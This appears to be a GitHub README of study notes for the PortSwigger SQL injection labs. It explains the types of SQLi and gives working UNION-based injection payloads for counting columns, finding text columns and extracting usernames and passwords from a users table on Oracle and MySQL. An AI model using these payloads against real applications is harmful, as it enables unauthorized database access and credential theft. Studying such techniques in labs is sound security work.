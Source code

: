 # SQL Injection (SQLi) - PortSwigger Labs

## 📌 Introduction
SQL Injection (SQLi) is a vulnerability that allows attackers to manipulate an application's database queries. This can result in unauthorized access, data leaks, and even system compromise.

---

## 🏆 Types of SQL Injection
1. **In-Band SQL Injection**
   - **Union-based SQLi**: Uses `UNION` to retrieve additional data.
   - **Error-based SQLi**: Leverages database errors to extract information.
   
2. **Blind SQL Injection** (No direct feedback)
   - **Boolean-based SQLi**: Infers database responses based on true/false conditions.
   - **Time-based SQLi**: Uses delays to determine success.
   
3. **Out-of-band SQL Injection**
   - Extracts data through external channels like DNS or HTTP requests.

---

## 🔍 Exploiting SQL Injection with UNION
### **How UNION Attacks Work**
If a vulnerable application returns query results in responses, attackers can use `UNION` to retrieve additional data from the database.
```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2;
```
**Conditions for a Successful UNION Attack:**
1. Both queries must have the **same number of columns**.
2. The data types of each column must be **compatible**.

---

### **Finding the Number of Columns**
Two main techniques can determine the correct number of columns:

#### **1️⃣ ORDER BY Method**
```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```
An error occurs when the specified column index exceeds the actual column count.

#### **2️⃣ UNION SELECT NULL Method**
```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```
![SQL Injection Lab](SQL_injection/Lab_01.png)
If the number of `NULL` values is incorrect, an error occurs. When correct, an additional row is displayed.

**Note:** On Oracle databases, `DUAL` is required:
```sql
' UNION SELECT NULL FROM DUAL--
```

---

### **Identifying Columns That Accept Text**
To find which columns can store text data, test each column:
```sql
' UNION SELECT 'test',NULL,NULL--
' UNION SELECT NULL,'test',NULL--
' UNION SELECT NULL,NULL,'test'--
```
An error indicates an incompatible data type, while a successful attempt displays the string in the response.

---

### **Extracting Sensitive Data**
Once column count and data types are known, attackers can retrieve data:
```sql
' UNION SELECT username, password FROM users--
```

#### **Handling Single Column Output**
If only one column is returned, values can be concatenated:
```sql
' UNION SELECT username || '~' || password FROM users--  -- Oracle
' UNION SELECT CONCAT(username, ':', password) FROM users--  -- MySQL
```

## 🎯 References
- [PortSwigger Web Security Academy](https://portswigger.net/web-security/sql-injection)
- [OWASP SQL Injection Guide](https://owasp.org/www-community/attacks/SQL_Injection)






